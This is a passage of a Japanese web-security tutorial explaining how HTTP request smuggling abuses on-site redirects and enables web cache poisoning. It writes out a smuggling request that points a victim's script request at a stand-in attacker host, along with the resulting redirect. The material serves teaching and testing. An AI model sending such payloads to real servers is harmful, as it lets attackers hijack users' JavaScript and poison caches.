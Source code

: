 ### HTTPリクエストスムーギングを使用したオンサイトリダイレクトの悪用 <a href="#exploiting-on-site-redirects-with-http-request-smuggling" id="exploiting-on-site-redirects-with-http-request-smuggling"></a>

アプリケーションは、リダイレクトURLの`Host`ヘッダーからホスト名を使用して、あるURLから別のURLにリダイレクトすることがよくあります。これは、ApacheやIISのようなウェブサーバーで一般的です。たとえば、末尾にスラッシュがないフォルダーをリクエストすると、スラッシュを含めるためにリダイレクトされます：
```
GET /home HTTP/1.1
Host: normal-website.com
```
結果は：
```
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```
この無害に見える動作は、HTTPリクエストスムージングを使用してユーザーを外部サイトにリダイレクトするように操作できます。例えば：
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
この密輸されたリクエストは、次に処理されるユーザーリクエストが攻撃者が制御するウェブサイトにリダイレクトされる原因となる可能性があります：
```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```
結果は：
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
このシナリオでは、ユーザーのJavaScriptファイルのリクエストがハイジャックされます。攻撃者は、応答として悪意のあるJavaScriptを提供することで、ユーザーを危険にさらす可能性があります。

### HTTPリクエストスムージングを介したウェブキャッシュポイズニングの悪用 <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

ウェブキャッシュポイズニングは、**フロントエンドインフラストラクチャがコンテンツをキャッシュする**任意のコンポーネントがある場合に実行できます。通常、これはパフォーマンスを向上させるためです。サーバーの応答を操作することで、**キャッシュをポイズン**することが可能です。

以前、サーバーの応答を変更して404エラーを返す方法を観察しました（[基本的な例](./#basic-examples)を参照）。同様に、サーバーを騙して`/static/include.js`のリクエストに対して`/index.html`のコンテンツを提供させることも可能です。その結果、`/static/include.js`のコンテンツはキャッシュ内で`/index.html`のものに置き換えられ、ユーザーが`/static/include.js`にアクセスできなくなり、サービス拒否（DoS）につながる可能性があります。
